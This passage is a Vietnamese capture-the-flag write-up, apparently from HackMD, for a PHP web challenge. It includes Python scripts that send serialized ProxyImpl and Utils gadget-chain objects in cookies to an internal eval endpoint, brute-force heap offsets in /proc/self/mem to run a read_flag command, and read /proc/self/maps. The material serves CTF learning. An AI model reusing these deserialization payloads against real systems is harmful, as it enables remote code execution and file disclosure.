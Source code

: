 ![image](https://hackmd.io/_uploads/rJi43ne_kl.png)

Có thể thấy thread ta cần xài là phần đầu của heap

![image](https://hackmd.io/_uploads/Sko233lu1g.png)

Ok thì bây giờ ta đã biết được thread cần sử dụng nhưng offset thì chưa biết 

Sau khi debug nhiều lần thì mình phát hiện msg chỉ xuất hiện ở offset 470000-530000 thôi nên mình có thể brute force đơn giản

Ok và sau khi thực hiện lại các bước trên trên chal web thì mình chạy đoạn python này để brute

```python
import requests
import base64

cmd_to_run = 'exec(\'import os;os.system("/read_flag > ~/b")\')'

h = "63060d997000"

for j in range(470000, 530000):

    k = str(hex(int(h, 16) + j)).replace("0x", "")

    cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:35:"http://back-end:3000/internal/eval?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:3:{s:4:"file";s:14:"/proc/self/mem";s:6:"offset";s:'+str(len(k))+':"'+k+'";s:6:"length";s:'+str(len(str(len(cmd_to_run))))+':"'+str(len(cmd_to_run))+'";}}'

    cmd = cmd.encode()

    cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

    x = requests.get("http://4.216.196.42:1337/", cookies=cookie)
    print(j)
```

Phân tích : 

* Ta cần eval đoạn cmd_to_run mà ta đã thực hiện trước đó
* Với h = "63060d997000" là phần đầu heap mình cần đọc để cắt ra cmd_to_run mà ta đã lấy trước đó

Chúng ta có thể sử dụng đoạn sau để serialization và đọc file /proc/self/maps

```python
import requests
import base64

file = "/proc/self/maps"

cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:35:"http://back-end:3000/internal/read?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:1:{s:4:"file";s:'+str(len(file))+':"'+file+'";}}'

cmd = cmd.encode()

```